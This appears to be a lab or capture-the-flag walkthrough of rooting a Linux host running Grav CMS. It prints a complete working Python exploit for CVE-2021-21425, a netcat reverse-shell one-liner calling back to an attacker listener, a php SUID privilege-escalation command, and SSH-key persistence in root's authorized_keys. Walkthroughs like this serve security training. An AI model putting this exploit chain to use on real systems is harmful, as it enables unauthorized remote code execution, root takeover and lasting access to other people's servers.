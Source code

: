 Beginning with a typical service and version scan with nmap, we find that only ports 22 (ssh) and 80 (http) are open. Additionally we are informed that there is a directory listing available, notably grav-admin.

##### Nmap Results

```nmap-output

$ nmap 192.168.228.12 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:05 EDT
Nmap scan report for 192.168.228.12
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)

80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
|-     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```

Enumerating the website, we in fact find that there is a content management system in use, Grav-CMS.

![image](https://github.com/user-attachments/assets/0d45e3e0-b7ae-4582-9fb7-573951440855)

![image](https://github.com/user-attachments/assets/cc0904c2-185e-4a2b-a47d-6564ca5e889b)

A quick search for related exploits turns up an interesting find. 

##### GravCMS Unauthenticated Arbitrary YAML Write/Update leads to Code Execution (CVE-2021-21425)

```
https://github.com/CsEnox/CVE-2021-21425
```


##### Exploit

```python

#!/usr/bin/python

import requests
from bs4 import BeautifulSoup
from time import sleep
import urllib.parse
import argparse

parser = argparse.ArgumentParser(description='Grav Admin 1.7.10 RCE')
parser.add_argument('-c', help='Command', required=True)
parser.add_argument('-t', help='URL (Eg: http://grav.local)', required=True)
args = parser.parse_args()

url = args.t
cmd = args.c
cmd = urllib.parse.quote(cmd)

session = requests.Session()

# Getting Nonce
r = session.get(url+'/admin')
soup = BeautifulSoup(r.text, features="lxml")
a = str(soup.findAll('input')[3])
nonce = a[47:79]

# Creating File
print("[*] Creating File")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/usr/bin/echo&data[custom_jobs][vwlya][args]={cmd}&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=/tmp/shell.sh&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for file creation, wait one minute")
	sleep(60)

# Running File
print("[*] Running file")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/bin/bash&data[custom_jobs][vwlya][args]=/tmp/shell.sh&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for command, wait one minute")
	sleep(60)

print("Exploit completed")
```
Setting our listener to port 4444. Then sending the exploit command.

![image](https://github.com/user-attachments/assets/ada695c3-222f-427f-961f-c7dee3ccdf58)


##### Command Line

```
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.21.153 4444 >/tmp/f' -t http://192.168.207.12/grav-admin
```
We get a reverse shell, as www-data.

![image](https://github.com/user-attachments/assets/14e3bca3-8656-4e09-b26a-48b350817cb6)


##### Stabilize Shell

```
export TERM=xterm;python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![image](https://github.com/user-attachments/assets/bb1e2a10-7faf-40fb-abd8-7ddfbf7a2f10)

We cannot check for sudo rights on www-data because we don't have the password. But we can search for binaries that may have the SUID bit set.

##### SUID Hunting

```
find / -perm -u=s 2>/dev/null
```

![image](https://github.com/user-attachments/assets/71cc304e-6c4b-4679-88a9-609b05ad1bba)

Checking out the findings on GTFOBins php seems to be a great candidate for Privilege Escalation.

##### Escalate Privileges

```shell
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
![image](https://github.com/user-attachments/assets/4bcce87e-17d0-4de1-9c29-1a4e3eed8e1a)

Now that we have root access, we can submit the proof of pwnage. Additionally we can have persistence on the machine by adding our public key to the authorized_keys file.

##### Persistence via SSH

```
cd /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTNoNoNoB5vEuE2CVK/0/xPnhxWfBWGj" >> authorized_keys
```
